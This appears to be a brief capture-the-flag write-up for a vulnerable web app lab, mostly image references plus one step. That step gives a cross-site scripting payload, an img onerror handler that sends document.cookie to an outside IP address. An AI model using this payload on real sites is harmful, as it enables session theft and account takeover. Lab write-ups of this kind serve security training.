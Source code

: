 ```yaml
---
date: 2025-02-20
categories: [CTF, IML]
title: "IML - Mini CTF: Vulnerable Web App – Ep.3"
tags: ['web exploit']

description: "Mini CTF Vulnerable Web App – - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Mini CTF: Vulnerable Web App – Ep.3


![image1](../resources/5b798f6da8f641a3b617ece54837c76f.png)

- Get an input field that broadcasts:


![image2](../resources/da75ca20153e48c98a269378acaa017d.png)

- Use payload:
```bash
<img src=x onerror="location.href='http ://10.102.120.158:8001/?c='+ document.cookie">

```

![image3](../resources/14d26214249741618a0004b3d39c7f64.png)